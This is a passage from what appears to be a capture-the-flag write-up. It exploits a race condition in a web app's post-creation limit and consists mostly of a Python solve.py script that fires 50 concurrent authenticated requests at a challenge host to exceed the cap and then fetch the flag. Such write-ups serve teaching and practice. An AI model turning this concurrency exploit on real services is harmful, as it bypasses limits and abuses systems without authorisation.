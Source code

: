 
![race-condition-vector](/blog/images/2024-09-02-11-35-01.png)


## Exploitation

Armed with this knowledge, we can create a python script that makes requests concurrently
to create more than 12 posts before the count is greater than 10.

### `solve.py`

```python
import aiohttp
import asyncio

# endpoint to create posts
url = 'http://6a6fc715-3148-439c-97a7-401b124afad5.bugg.cc/user/posts/create'
# get the accesstoken from the cookies upon login
cookies = {
    "accesstoken": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjUyNzQxMzksImlhdCI6MTcyNTI3MzUzOSwicm9sZSI6InVzZXIiLCJ1c2VybmFtZSI6ImgifQ.PT9VM2KV4dSlp3uNTfRuwsJ_3hfaPKaLWNbkZiWt0TQ"
}

# POST Data
post_data = {
    "title": "Race Condition Test",
    "data": "This is the data for the post"
}

async def send_post(session, semaphore):
    async with semaphore:
        async with session.post(url, json=post_data, cookies=cookies) as response:
            text = await response.text()
            print(f"Response: {text}")

async def main():
    concurrency_limit = 100  # Limit the number of concurrent requests
    semaphore = asyncio.Semaphore(concurrency_limit)

    async with aiohttp.ClientSession(connector=aiohttp.TCPConnector(limit=concurrency_limit)) as session:
        tasks = [send_post(session, semaphore) for _ in range(50)]
        await asyncio.gather(*tasks)

# Run the main function
asyncio.run(main())

```

Running `python solve.py` should create more than 12 posts. To verify my claim,
let's try to access `/user/flag` to see if we actually get the flag.

